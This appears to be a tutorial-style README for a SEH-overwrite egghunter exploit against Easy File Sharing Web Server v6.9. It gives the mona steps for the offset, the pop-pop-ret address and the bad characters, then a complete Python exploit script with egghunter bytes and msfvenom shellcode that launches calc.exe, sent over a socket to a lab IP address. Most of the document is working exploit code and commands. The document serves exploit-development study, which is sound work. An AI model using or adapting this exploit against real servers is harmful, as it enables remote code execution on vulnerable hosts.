



# seh_egghunter


### 1. Fuzzing


- nseh and seh records has been overwritten by AAAA 
- we have a structured exception handling buffer overflow





### 2. Finding Offset


- we will find offset to the first nseh and seh record so that we can overwrite them with our value
- once successful we will control instruction pointer

```
!mona pattern_create 5000
```

```
!mona pattern_offset 34664633
```


##### pattern offset

```
4061 bytes
```


### 3. pop pop ret sequence


- we need to find value of pop pop ret sequence

```
!mona seh -m -o
```

- seh.txt file will be saved take a memory address with no null characters


- imagebase.dll was taken in my case

```
0x100103fe [ImageLoad.dll]
```


### 4. Finding bad chars

- Mona byte array to address comparison for bad characters


```
!mona compare -f c:\mona\fsws\bytearrray.bin -a address
```

- bad chars

```
badchars "\x00\x20\x25\x2b\x2f\x5c"
```


### 5. Final skeleton

- without egghunter skeleton

offset = 4061

nseh = jmp short

seh  = pointer to pop pop ret

nops led = "\x90" * 50

buf  payload

```
crash1 = "A" * offset + nseh + seh +"\x90" * 50 + buf
```


### 6. with egghunter


##### cyclic pattern


```
!mona findmsp
```



- we will use cyclic pattern to find it in memory

- there is second field where we can put our payload 
- in user agent will put our payload along with egg
- and in first field we will put our egghunter


- this will give us egg without these badcharacters

```
!mona egg -cpb "\x00\x20\x25\x2b\x2f\x5c"
```





### 7. egg

- once we have created egghunter now we have to place the egg
- we place the egg twice as it will help in not going to the code where we have defined egg for searching egg hunter


```python
#skeleton of egg hunter

offset = 4061
nseh = "\xeb\x06\x90\x90"
seh = "\xfe\x03\x01\x10"

egghunter = ("\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
"\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7")

crash1 = "A" * offset + nseh + seh +"\x90" * 50 + egghunter + "\x90" * 50           (5000-offset-4-4-len(badchars)-16)

calc = buf

payload = "GET " + crash1 + " HTTP/1.1\r\n"
payload += "Host: 172.16.62.128\r\n"
payload += "User-Agent: w00tw00t" + calc + "\r\n"
```


### final script


```python
#!/usr/bin/env python


#GET /favicon.ico HTTP/1.1
#Host: 172.16.62.128
#User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:82.0) Gecko/20100101 Firefox/82.0
#Accept: image/webp,*/*
#Accept-Language: en-US,en;q=0.5
#Accept-Encoding: gzip, deflate
#DNT: 1
#Connection: keep-alive
#Referer: http://172.16.62.128/
#Cookie: SESSIONID=23475

#HTTP/1.0 400 Bad Request
#Server: Easy File Sharing Web Server v6.9
#Date: Fri, 18 Dec 2020 00:27:21 GMT


import socket
import os

#SEH chain of thread 00000D5C
#Address    SE handler
#04906FAC   46356646
#34664633   *** CORRUPT ENTRY ***

#nseh offset 4061
#0x100103fe [ImageLoad.dll] 

#badchars "\x00\x20\x25\x2b\x2f\x5c"


#msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -b "\x00\x20\x25\x2b\x2f\x5c" -f c 
buf = ("\xdd\xc2\xd9\x74\x24\xf4\x5a\xbe\x9a\x23\xfb\xb9\x33\xc9\xb1"
"\x31\x31\x72\x18\x03\x72\x18\x83\xea\x66\xc1\x0e\x45\x7e\x84"
"\xf1\xb6\x7e\xe9\x78\x53\x4f\x29\x1e\x17\xff\x99\x54\x75\xf3"
"\x52\x38\x6e\x80\x17\x95\x81\x21\x9d\xc3\xac\xb2\x8e\x30\xae"
"\x30\xcd\x64\x10\x09\x1e\x79\x51\x4e\x43\x70\x03\x07\x0f\x27"
"\xb4\x2c\x45\xf4\x3f\x7e\x4b\x7c\xa3\x36\x6a\xad\x72\x4d\x35"
"\x6d\x74\x82\x4d\x24\x6e\xc7\x68\xfe\x05\x33\x06\x01\xcc\x0a"
"\xe7\xae\x31\xa3\x1a\xae\x76\x03\xc5\xc5\x8e\x70\x78\xde\x54"
"\x0b\xa6\x6b\x4f\xab\x2d\xcb\xab\x4a\xe1\x8a\x38\x40\x4e\xd8"
"\x67\x44\x51\x0d\x1c\x70\xda\xb0\xf3\xf1\x98\x96\xd7\x5a\x7a"
"\xb6\x4e\x06\x2d\xc7\x91\xe9\x92\x6d\xd9\x07\xc6\x1f\x80\x4d"
"\x19\xad\xbe\x23\x19\xad\xc0\x13\x72\x9c\x4b\xfc\x05\x21\x9e"
"\xb9\xfa\x6b\x83\xeb\x92\x35\x51\xae\xfe\xc5\x8f\xec\x06\x46"
"\x3a\x8c\xfc\x56\x4f\x89\xb9\xd0\xa3\xe3\xd2\xb4\xc3\x50\xd2"
"\x9c\xa7\x37\x40\x7c\x06\xd2\xe0\xe7\x56")

offset = 4061
nseh = "\xeb\x06\x90\x90"
seh = "\xfe\x03\x01\x10"

egghunter = ("\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
"\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7")

crash1 = "A" * offset + nseh + seh +"\x90" * 50 + egghunter + "\x90" * 50          #+ badchars + "\x90" * (5000-offset-4-4-len(badchars)-16)

calc = buf

#crash1 = "A" * 4061 + badchars + "B" * (1000-len(badchars))

payload = "GET " + crash1 + " HTTP/1.1\r\n"
payload += "Host: 172.16.62.128\r\n"
payload += "User-Agent: w00tw00t" + calc + "\r\n"

print("[+] send payload")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
conn = s.connect(("172.16.62.128",80))

s.send(payload)
s.close()

```


